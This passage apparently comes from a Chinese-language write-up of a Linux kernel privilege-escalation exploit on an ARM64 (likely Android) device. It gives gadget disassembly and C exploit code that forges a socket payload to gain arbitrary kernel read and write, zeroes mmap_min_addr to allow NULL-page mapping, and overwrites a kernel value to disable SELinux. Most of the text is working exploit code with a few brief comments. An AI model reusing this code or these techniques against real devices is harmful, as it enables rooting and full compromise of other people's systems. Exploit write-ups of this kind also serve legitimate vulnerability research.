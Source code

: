 ```
	    ROM:FFFFFFC00035D78C                 CMP             W1, #1
	    ROM:FFFFFFC00035D790                 MOV             X5, SP
	    ROM:FFFFFFC00035D794                 MOV             X29, SP
	    ROM:FFFFFFC00035D798                 STP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D79C                 AND             X19, X5, #0xFFFFFFFFFFFFC000
	    ROM:FFFFFFC00035D7A0                 MOV             X5, #0xFFFFFFFFFFFFFFFF
	    ROM:FFFFFFC00035D7A4                 LDR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7A8                 STR             X5, [X19,#8]
	    ROM:FFFFFFC00035D7AC                 B.EQ            loc_FFFFFFC00035D7CC
	    ROM:FFFFFFC00035D7B0                 LDR             X5, [X0,#0x28]
	    ROM:FFFFFFC00035D7B4                 LDR             X5, [X5,#0x68]
	    ROM:FFFFFFC00035D7B8                 BLR             X5
	    ROM:FFFFFFC00035D7BC                 STR             X20, [X19,#8]
	    ROM:FFFFFFC00035D7C0                 LDP             X19, X20, [SP,#var_s10]
	    ROM:FFFFFFC00035D7C4                 LDP             X29, X30, [SP+var_s0],#0x20
	    ROM:FFFFFFC00035D7C8                 RET

	   */
	   *(unsigned long *)((char *)payload + 0x28)  = (unsigned long)payload;
	   *(unsigned long *)((char *)payload)         = (unsigned long)0xFFFFFFC00035D788;
	   *(unsigned long *)((char *)payload + 0x68)  = (unsigned long)0xFFFFFFC00035D7C0;
	   close(exp_sock);

	   printf("[*] now we can R/W kernel address space like a boss.\n");

```

[外链图片转存失败, 源站可能有防盗链机制, 建议将图片保存下来直接上传 (img-KkCFXXQj-1644392782070)(exp_6.png)]

x0 是我们控制的 sock

这样，我们可以以用户态的身份任意写了

```
 data8 = 0; 
   kernel_write8((void *)0xffffffc000652148, &data8);
   user_mm = mmap(NULL, PAGE_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);
   if(MAP_FAILED == user_mm)
   {
      perror("[*] mmap NULL fail");
      return -1;
   }

```

改全局 mmap_min_addr 让我们能够在用户态 mmap null 地址

```
 data4 = 0;
   kernel_write4((void *)0xffffffc00065399c, &data4);
   printf("[*] selinux disabled.\n");

```
